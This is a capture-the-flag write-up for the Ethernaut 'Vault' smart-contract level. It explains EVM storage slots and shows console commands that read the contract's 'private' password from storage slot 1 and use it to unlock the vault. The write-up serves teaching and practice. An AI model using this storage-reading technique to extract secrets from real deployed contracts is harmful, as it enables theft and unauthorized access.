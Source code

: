 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<img src="https://programtheblockchain.com/storage/storage.png">

```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at slot 0. 
+ ```b``` is stored at slot 1.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png">

## Accessing Private Variabes In Storage



# Subverting

```shell
await contract.locked()
true
```

```shell
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```

```shell
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
```shell
await contract.unlock(pass)
```
```shell
await contract.locked()
false
```

**_by wasny0ps_**
